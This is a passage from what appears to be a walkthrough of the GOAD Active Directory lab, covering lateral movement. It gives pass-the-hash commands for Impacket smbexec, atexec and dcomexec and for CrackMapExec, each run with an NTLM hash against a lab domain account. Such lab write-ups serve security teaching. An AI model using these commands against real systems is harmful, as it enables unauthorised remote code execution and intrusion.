 SmbExec (pseudo-shell):
  - Don't upload executable
  - Create a service on every request
  - Get the command results on a share or on a server controled by the attacker (with -mode SERVER)
  - Protocol SMB

```bash
smbexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

![lateral_smbexec.png](/assets/blog/GOAD/lateral_smbexec.png)

![lateral_smbexec_wireshark.png](/assets/blog/GOAD/lateral_smbexec_wireshark.png)

#### AtExec

AtExec (execute command):
  - use a schedule task to run the command
  - protocol SMB

```bash
atexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

![lateral_atexec.png](/assets/blog/GOAD/lateral_atexec.png)

![lateral_atexec_wireshark.png](/assets/blog/GOAD/lateral_atexec_wireshark.png)

#### DcomExec
DecomExec (Distributed Component Object Model):
  - pseudo shell (get the result in files retreived with smb)
  - protocol DCERPC + SMB

```bash
dcomexec.py -hashes ':cba36eccfd9d949c73bc73715364aff5' NORTH/catelyn.stark@192.168.56.11
```

![lateral_dcomexec.png](/assets/blog/GOAD/lateral_dcomexec.png)

![lateral_dcomexec_turnofffirewall.png](/assets/blog/GOAD/lateral_dcomexec_turnofffirewall.png)

![lateral_dcomexec_wireshark.png](/assets/blog/GOAD/lateral_dcomexec_wireshark.png)

### Lateral Move with CME

```bash
cme smb 192.168.56.11 -H ':cba36eccfd9d949c73bc73715364aff5' -d 'north' -u 'catelyn.stark' -x whoami
```

- By default cme only check if smb admin$ is writable. If it is the case cme show "pwned".
- For execution cme use the -x option and by default use the wmiexec impacket method

![lateral_cme.png](/assets/blog/GOAD/lateral_cme.png)
